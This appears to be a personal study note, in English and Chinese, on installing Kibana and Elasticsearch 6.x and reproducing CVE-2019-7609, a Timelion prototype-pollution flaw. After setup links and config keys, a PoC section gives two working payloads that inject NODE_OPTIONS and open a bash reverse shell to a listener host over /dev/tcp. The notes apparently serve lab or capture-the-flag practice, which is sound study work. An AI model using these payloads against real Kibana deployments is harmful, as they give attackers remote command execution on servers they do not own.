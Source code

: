 ### Download and install
- https://www.elastic.co/downloads/kibana
- https://artifacts.elastic.co/downloads/kibana/kibana-6.2.4-linux-x86_64.tar.gz
- https://www.elastic.co/downloads/past-releases#elasticsearch
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.1.1-linux-x86_64.tar.gz
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.2.4.zip

```
Run bin/kibana (or bin\kibana.bat on Windows)
```

![image](https://user-images.githubusercontent.com/30398606/160968247-fc9def98-5a03-4f56-a3c8-3fd6e5497250.png)


依赖Elasticsearch。
### 修改端口地址
`config/elasticsearch.yml`
```
network.host
```
`config/kibana.yml`
```
server.host
```

- https://www.elastic.co/guide/cn/kibana/current/settings.html
- 
### 载入数据

安装完ElasticSearch之后需要载入数据，否则出现这种情况：
![image](https://user-images.githubusercontent.com/30398606/160978398-9e1b2ad7-b2fc-476a-ab88-2e390a6d7779.png)

- https://www.elastic.co/guide/en/kibana/6.7/tutorial-load-dataset.html

### kibana CVE-2019-7609

- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://github.com/nobodyatall648/writeup/blob/master/TryHackMe/kiba.pdf
- https://www.youtube.com/watch?v=xF5i30mXhSM
- https://baizesec.github.io/bylibrary/%E6%BC%8F%E6%B4%9E%E5%BA%93/03-%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/Kibana/CVE-2019-7609-kibana%E4%BD%8E%E4%BA%8E6.6.0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/


### CVE-2019-7609

> Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.


### PoC
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

## Ref
- https://github.com/mpgn/CVE-2019-7609

